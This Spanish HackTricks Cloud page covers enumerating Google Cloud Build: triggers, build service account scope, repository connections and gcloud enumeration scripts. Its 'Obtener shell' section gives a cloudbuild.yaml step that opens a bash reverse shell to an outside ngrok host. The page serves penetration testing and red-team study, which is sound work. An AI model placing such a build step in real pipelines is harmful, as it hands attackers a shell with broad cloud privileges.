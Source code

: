 # GCP - Enumeración de Cloud Build

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs exclusivos**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de Github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

Google Cloud Build es una plataforma gestionada de CI/CD que **automatiza los procesos de construcción de software** y lanzamiento, integrándose con **repositorios de código fuente** y soportando una amplia gama de lenguajes de programación. **Permite a los desarrolladores construir, probar y desplegar código automáticamente** mientras ofrece flexibilidad para personalizar pasos de construcción y flujos de trabajo.

Cada Disparador de Cloud Build está **relacionado con un Repositorio Cloud o directamente conectado con un repositorio externo** (Github, Bitbucket y Gitlab).

{% hint style="success" %}
No encontré ninguna manera de robar el token de Github/Bitbucket desde aquí o desde los Repositorios Cloud porque cuando se descarga el repositorio se accede a través de una URL [https://source.cloud.google.com/](https://source.cloud.google.com/) y Github no es accedido por el cliente.
{% endhint %}

### Eventos

El Cloud Build puede ser activado si:

* **Push a una rama**: Especifica la rama
* **Push de una nueva etiqueta**: Especifica la etiqueta
* **Pull request**: Especifica la rama que recibe el PR
* **Invocación Manual**
* **Mensaje Pub/Sub:** Especifica el tema
* **Evento de Webhook**: Expondrá una URL HTTPS y la solicitud debe ser autenticada con un secreto

### Ejecución

Hay 3 opciones:

* Un yaml/json **especificando los comandos** a ejecutar. Usualmente: `/cloudbuild.yaml`
* Solo uno que puede ser especificado "en línea" en la consola web y en la cli
* Opción más común
* Relevante para acceso no autenticado
* Un **Dockerfile** para construir
* Un **Buildpack** para construir

### Permisos de SA

La **Cuenta de Servicio tiene el alcance `cloud-platform`**, por lo que puede **usar todos los privilegios.** Si **no se especifica ninguna SA** (como cuando se hace submit) se **usará la SA predeterminada** `<proj-number>@cloudbuild.gserviceaccount.com`.

Por defecto no se otorgan permisos, pero es bastante fácil conceder algunos:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Aprobaciones

Es posible configurar un Cloud Build para **requerir aprobaciones para la ejecución de construcciones** (deshabilitado por defecto).

### Conexiones & Repositorios

Las conexiones se pueden crear sobre:

* **GitHub:** Mostrará un aviso de OAuth pidiendo permisos para **obtener un token de Github** que se almacenará dentro del **Secret Manager.**
* **GitHub Enterprise:** Pedirá instalar una **GithubApp**. Un **token de autenticación** de tu host de GitHub Enterprise será creado y almacenado en este proyecto como un secreto de **Secret Manager**.
* **GitLab / Enterprise:** Necesitas **proporcionar el token de acceso a la API y el token de acceso a la API de Lectura** que se almacenará en el **Secret Manager.**

Una vez generada una conexión, puedes usarla para **vincular repositorios a los que la cuenta de Github tiene acceso**.

Esta opción está disponible a través del botón:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Ten en cuenta que los repositorios conectados con este método están **solo disponibles en Disparadores usando la 2ª generación.**
{% endhint %}

### Conectar un Repositorio

Esto no es lo mismo que una **`conexión`**. Esto permite **diferentes** formas de obtener **acceso a un repositorio de Github o Bitbucket** pero **no genera un objeto de conexión, pero sí genera un objeto de repositorio (de 1ª generación).**

Esta opción está disponible a través del botón:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Almacenamiento

A veces Cloud Build **generará un nuevo almacenamiento para guardar los archivos del disparador**. Esto sucede por ejemplo en el ejemplo que GCP ofrece con:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket de Storage llamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) se crea para almacenar un `.tgz` con los archivos a utilizar.

### Obtener shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeración

Podrías encontrar **información sensible en configuraciones de compilación y registros**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Escalación de Privilegios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acceso No Autenticado

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Explotación

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
